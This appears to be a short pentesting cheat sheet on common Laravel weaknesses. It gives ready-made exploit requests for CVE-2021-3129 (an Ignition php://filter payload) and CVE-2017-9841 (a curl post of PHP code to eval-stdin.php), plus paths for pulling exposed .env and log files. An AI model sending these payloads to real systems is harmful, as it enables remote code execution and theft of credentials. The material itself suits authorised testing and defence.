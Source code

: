 # Laravel Common Bugs

## Introduction
What would you do if you came across a website that uses Laravel?

## How to Detect
Usually in the HTTP response there is a header like this `Set-Cookie: laravel_session=`

1. Find the related CVE by checking laravel version
* How to find the laravel version

By checking the composer file in `https://example.com/composer.json`, sometimes the version is printed there. If you found outdated laravel version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-16542/product_id-38139/Laravel-Laravel.html)

Some example CVE:

- CVE-2021-3129 (Remote Code Execution)
```
POST /_ignition/execute-solution HTTP/1.1
Host: example.com
Accept: application/json
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "cve20213129", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}}
```

2. Laravel 4.8.28 ~ 5.x - PHPUnit Remote Code Execution (CVE-2017-9841)
```
curl -d "<?php echo php_uname(); ?>" http://example.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

3. Exposed environment variables 
* Full Path Exploit : http://example.com/.env

![Environment Variables](https://1.bp.blogspot.com/-EUTxgP5XE6Q/XkgB4SyWSbI/AAAAAAAAAQA/eqtALOjLKKA46si-lIosm6cDVmxByjzIQCLcBGAsYHQ/s1600/1.png)

4. Exposed log files
* Full Path Exploit : http://example.com/storage/logs/laravel.log

5. Laravel Debug Mode Enabled
* Try to request to https://example.com using POST method (Error 405)
* Using [] in paramater (ex:example.com/param[]=0)

![Laravel Debug Mode](https://hacken.io/wp-content/uploads/2019/07/laravel-screen.png)


